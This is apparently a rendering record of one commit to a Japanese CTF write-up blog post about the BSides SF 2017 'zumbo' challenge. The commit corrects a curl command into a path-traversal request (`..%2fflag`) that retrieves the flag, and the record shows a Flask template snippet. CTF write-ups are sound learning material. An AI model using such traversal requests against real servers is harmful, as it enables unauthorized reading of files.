

Before and after one commit to st98/diary, a Jekyll site: the page built from _posts/2017-02-14-bsides-sf-ctf.md, in a window 1280 px wide and 900 px high, scrolled down 7801 px. Shown: the whole window, without its empty margins (272-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
コマンドのミスを修正

````diff
--- a/_posts/2017-02-14-bsides-sf-ctf.md
+++ b/_posts/2017-02-14-bsides-sf-ctf.md
@@ -261,7 +261,7 @@
     return flask.render_template_string(template, name='test', counter=counter);
 ```
 
-とあります。`curl http://zumbo-8ac445b1.ctf.bsidessf.net/%2fflag` でフラグが出てきました。
+とあります。~~`curl http://zumbo-8ac445b1.ctf.bsidessf.net/%2fflag`~~ `curl http://zumbo-8ac445b1.ctf.bsidessf.net/..%2fflag` でフラグが出てきました。
 
 ```
 FLAG: RUNNER_ON_SECOND_BASE
````
